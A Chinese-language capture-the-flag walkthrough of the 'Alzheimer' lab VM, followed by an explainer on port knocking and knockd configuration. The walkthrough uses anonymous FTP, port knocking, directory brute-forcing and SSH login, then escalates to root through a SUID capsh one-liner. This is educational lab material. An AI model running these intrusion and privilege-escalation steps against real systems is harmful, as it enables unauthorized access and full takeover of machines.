

# Alzheimer


## 环境配置

该虚拟机的网络没有分配ip，我们重新定义了一个名字为ens33网卡，分配到了IP；该虚拟机还运行了一个knockd服务，它监听的不是ens33。我们要把他改为ens33，然后再重启服务就可以。



```shell
Interface = ens33 # 改为这个就可以，我上面的已经更改了。

service knockd restart
```

这样这个虚拟机的环境就配置好了。

## 信息收集

```shell
warn@kali:~$ nmap -sC -sV 192.168.174.136                
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-01 13:39 CST
Nmap scan report for 192.168.174.136
Host is up (0.00021s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
21/tcp open     ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.174.130
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230) # 允许匿名访问
22/tcp filtered ssh
80/tcp filtered http
MAC Address: 00:0C:29:ED:86:D1 (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.76 seconds

warn@kali:~$ ftp 192.168.174.136 21           
Connected to 192.168.174.136.
220 (vsFTPd 3.0.3)
Name (192.168.174.136:warn): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||44285|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        113          4096 Oct 03  2020 .
drwxr-xr-x    2 0        113          4096 Oct 03  2020 ..
-rw-r--r--    1 0        0              93 Mar 31 03:04 .secretnote.txt
226 Directory send OK.
ftp> get .secretnote.txt
local: .secretnote.txt remote: .secretnote.txt
229 Entering Extended Passive Mode (|||31581|)
150 Opening BINARY mode data connection for .secretnote.txt (93 bytes).
100% |********************************************************************************|    93        3.22 KiB/s    00:00 ETA
226 Transfer complete.
93 bytes received in 00:00 (3.12 KiB/s)
ftp> exit
221 Goodbye.

warn@kali:~/Desktop$ cat .secretnote.txt
I need to knock this ports and 
one door will be open!
1000
2000
3000
```

这其实就是port knocking，只要我们按正确的端口访问，它的隐藏端口就会打开。

```shell
warn@kali:~/Desktop$ knock 192.168.174.136 1000 2000 3000 -v                            
hitting tcp 192.168.174.136:1000
hitting tcp 192.168.174.136:2000
hitting tcp 192.168.174.136:3000
                                                                                                                             
warn@kali:~/Desktop$ nmap 192.168.174.136                        
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-01 13:49 CST
Nmap scan report for 192.168.174.136
Host is up (0.00035s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE    SERVICE
21/tcp open     ftp
22/tcp filtered ssh
80/tcp open     http
MAC Address: 00:0C:29:ED:86:D1 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 1.38 seconds
# 可以看到打开了80端口。
warn@kali:~/Desktop$ curl -i -s http://192.168.174.136:80/
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Wed, 01 Apr 2026 05:50:31 GMT
Content-Type: text/html
Content-Length: 132
Last-Modified: Sat, 03 Oct 2020 09:55:08 GMT
Connection: keep-alive
ETag: "5f784a7c-84"
Accept-Ranges: bytes

I dont remember where I stored my password :(
I only remember that was into a .txt file...
-medusa
# 告诉我们密码在 .txt 文件里面
# 但不确定密码的位置
# medusa 猜测是靶机的用户名
<!---. --- - .... .. -. --. -->
# 密文 -. --- - .... .. -. --.  明文 NOTHING    
# 没有任何东西
warn@kali:~/Desktop$ dirsearch -u http://192.168.174.136/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/warn/Desktop/reports/http_192.168.174.136/__26-04-01_13-52-23.txt

Target: http://192.168.174.136/

[13:52:23] Starting: 
[13:52:26] 301 -  185B  - /admin  ->  http://192.168.174.136/admin/         
[13:52:26] 403 -  571B  - /admin/                                           
[13:52:33] 301 -  185B  - /home  ->  http://192.168.174.136/home/           
[13:52:39] 301 -  185B  - /secret  ->  http://192.168.174.136/secret/       
[13:52:39] 200 -   44B  - /secret/  
                                                                             
Task Completed
                                                                                                                             
warn@kali:~/Desktop$ curl -i -s http://192.168.174.136:80/secret/
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Wed, 01 Apr 2026 05:53:01 GMT
Content-Type: text/html
Content-Length: 44
Last-Modified: Sat, 03 Oct 2020 09:56:40 GMT
Connection: keep-alive
ETag: "5f784ad8-2c"
Accept-Ranges: bytes

Maybe my password is in this secret folder?
# 疑问语句，它这里不是很确定，maybe。                                     
                                         
warn@kali:~/Desktop$ curl -i -s http://192.168.174.136:80/home/               
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Wed, 01 Apr 2026 05:56:40 GMT
Content-Type: text/html
Content-Length: 34
Last-Modified: Sat, 03 Oct 2020 09:56:17 GMT
Connection: keep-alive
ETag: "5f784ac1-22"
Accept-Ranges: bytes

Maybe my pass is at home!
-medusa
# maybe   
                                                   
warn@kali:~/Desktop$ gobuster dir -u http://192.168.174.136/home/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.174.136/home/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 220558 / 220558 (100.00%)
===============================================================
Finished
===============================================================
  
# 这里枚举了220000个常见的文件，都没有枚举到。
# 80 端口，目前我们得不到有用的消息，现在接着从21端口看能不能找打突破口。
# 为啥要进行ftp连接了，敲门成功后，knockd 会执行一些命令，在改变防火墙的同时，也可能对一些文件有所更改。
warn@kali:~/Desktop$ ftp 192.168.174.136 21           
Connected to 192.168.174.136.
220 (vsFTPd 3.0.3)
Name (192.168.174.136:warn): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||10898|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        113          4096 Oct 03  2020 .
drwxr-xr-x    2 0        113          4096 Oct 03  2020 ..
-rw-r--r--    1 0        0             116 Apr 01 01:48 .secretnote.txt
ftp> get .secretnote.txt
local: .secretnote.txt remote: .secretnote.txt
229 Entering Extended Passive Mode (|||42630|)
150 Opening BINARY mode data connection for .secretnote.txt (116 bytes).
100% |********************************************************************************|   116        2.08 MiB/s    00:00 ETA
226 Transfer complete.
116 bytes received in 00:00 (93.93 KiB/s)

warn@kali:~/Desktop$ cat .secretnote.txt
I need to knock this ports and 
one door will be open!
1000
2000
3000
Ihavebeenalwayshere!!!
# 文件里多了这么一段内容。
# 这个可能就是密码。
```

##  漏洞利用

我们泄露出来ssh的密码，通过ssh密码加用户名，我们可以进行ssh连接。

```shell
warn@kali:~/Desktop$ ssh medusa@192.168.174.136 -p 22
medusa@192.168.174.136's password: 
Linux alzheimer 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Mar 31 03:25:01 2026 from 192.168.174.130
medusa@alzheimer:~$  ls -al
total 36
drwxr-xr-x 3 medusa medusa 4096 Mar 31 03:28 .
drwxr-xr-x 3 root   root   4096 Oct  2  2020 ..
-rw------- 1 medusa medusa  299 Mar 31 05:49 .bash_history
-rw-r--r-- 1 medusa medusa  220 Oct  2  2020 .bash_logout
-rw-r--r-- 1 medusa medusa 3526 Oct  2  2020 .bashrc
drwxr-xr-x 3 medusa medusa 4096 Oct  3  2020 .local
-rw-r--r-- 1 medusa medusa  807 Oct  2  2020 .profile
-rw-r--r-- 1 medusa medusa   19 Oct  3  2020 user.txt
-rw------- 1 medusa medusa  107 Oct  3  2020 .Xauthority
medusa@alzheimer:~$ cat user.txt
HMVrespectmemories
```

我们下载要拿到root用户的root.txt。

## 提权

```shell
medusa@alzheimer:~$ sudo -l
Matching Defaults entries for medusa on alzheimer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User medusa may run the following commands on alzheimer:
    (ALL) NOPASSWD: /bin/id
# 这个id 无法进行提权

medusa@alzheimer:~$ find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null
-rwsr-xr-- 1 root messagebus 51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 157192 Feb  2  2020 /usr/bin/sudo
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-sr-x 1 root root 26776 Feb  6  2019 /usr/sbin/capsh
# 我们可以看到 /usr/sbin/capsh 
# capsh --gid=0 --uid=0 -- 提权
medusa@alzheimer:~$ /usr/sbin/capsh --gid=0 --uid=0 --
root@alzheimer:~# cat /root/root.txt
HMVlovememories
```

## 总结

这个靶机的环境有一些配置不当的地方，导致我在做题的时候，即使思路正确，也得不到很好的反馈。总体上这道题的漏洞还是处于信息泄露阶段，还是比较简单的。

## port knocking

它本质上是：一种通过预定义的端口序列来控制防火墙规则的技术。服务器上的某些端口（比如SSH的22端口）默认是关闭的，只有当客户端按照正确的顺序访问指定端口后，防火墙才会临时开放目标端口。

这种技术最大的好处就是可以让你的服务器在网络扫描中完全隐身。黑客用nmap扫描的时候，会发现你的服务器上没有任何开放的端口，就像一个"幽灵服务器"一样。

**工作原理**

当你配置好敲门协议后，服务器会监听网络流量，寻找特定的端口访问模式。比如说，你设置的敲门序列是：先访问1234端口，然后访问5678端口，最后访问9999端口。

服务器上运行着一个守护进程，它会记录每个IP地址的端口访问历史。当某个IP按照正确的顺序访问了这三个端口后，守护进程就会修改防火墙规则，临时开放SSH端口（或者其他你想要开放的端口）给这个IP地址。

这个过程有点像是在玩密室逃脱游戏，你需要按照正确的顺序触发机关，最后的门才会打开。

不过这里有个细节需要注意，敲门的端口访问通常是有时间限制的。如果你敲门的间隔太长，服务器可能会重置计数器，你就需要重新开始敲门序列。

**服务配置**

```shell
# root 
apt install knockd
systemctl start knock 
```

查看`knockd`服务的配置。

```shell
warn@kali:~/Desktop$ cat /etc/knockd.conf   
[options]
        UseSyslog
# 开始
[openSSH]
	    # 敲门暗号顺序
        sequence    = 7000,8000,9000
        # 设置超时时间
        seq_timeout = 5
        # 设置敲门成功后要执行的命令
        command     = /sbin/iptables -A INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn
# 关闭
[closeSSH]
        sequence    = 9000,8000,7000
        seq_timeout = 5
        command     = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
        tcpflags    = syn
#开启
[openHTTPS]
        sequence    = 12345,54321,24680,13579
        seq_timeout = 5
        command     = /usr/local/sbin/knock_add -i -c INPUT -p tcp -d 443 -f %IP%
        tcpflags    = syn

```

本质上，在敲门成功后执行的是一个命令，我们要警惕敲门成功后的任何改变，有些命令可能导致信息的泄露。

**客户端敲门的方式：**

1. knock

```shell
knock 192.168.174.136 1000 2000 3000 -v
```

2. telnet

```shell
telent 192.168.174.136 1000
telent 192.168.174.136 2000
telent 192.168.174.136 3000
```

3. nmap

```shell
for port in 7000 8000 9000; do 
  nmap -Pn -p $port 192.168.1.100
done
```

